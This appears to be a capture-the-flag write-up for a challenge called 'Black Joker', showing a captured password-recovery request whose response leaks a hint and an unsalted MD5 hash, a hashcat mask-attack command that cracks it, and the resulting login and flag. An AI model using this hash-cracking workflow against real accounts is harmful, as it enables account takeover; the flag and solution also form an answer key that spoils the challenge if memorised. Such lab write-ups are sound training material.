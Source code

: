 
# Black Joker
![Black Joker](black_jocker.png)

On port 8123, we have an admin login prompt at 
http://172.15.41.117:8123/admin

and a sign up page
http://172.15.41.117:8123/sign-up

There is also a password recovery page
http://172.15.41.117:8123/hint

This last one is interesting. Using burpsuite to capture the request/reesponse for the admin account listed on the front page: 

REQUEST:
```
POST /password-recovery HTTP/1.1
Host: 172.15.41.117:8123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 29
Origin: http://172.15.41.117:8123
Connection: close
Referer: http://172.15.41.117:8123/hint

{"email":"admin@example.com"}
```

RESPONSE:
```
HTTP/1.0 200 OK
Date: Sun, 06 Dec 2020 06:46:42 GMT
Server: WSGIServer/0.2 CPython/3.8.5
Content-Type: application/json
Content-Length: 168

{"id": 0, 
"name": "Jim \"Hate Salt\" Jones", 
"email": "admin@example.com", 
"hint": "The password begins with \"ihatesalt\"", 
"hash": "7f35f82c933186704020768fd08c2f69"
}
```

We have a partial string and an MD5? hash, fire up hashcat and get a pattern crafted:
```
hashcat -m0 7f35f82c933186704020768fd08c2f69 -a 3 -1 ?l?d -i ihatesalt?1?1?1?1?1
```

In not too much time we get 
```
7f35f82c933186704020768fd08c2f69:ihatesaltalot7 
```

As promised, "salt free hash." So now we know his password is ihatesaltalot7.  What is his username?

After a couple trys find out it's just the full email.

FLAG:
```
4192e8fbfd17de573b9d29fab0ab2f40
```



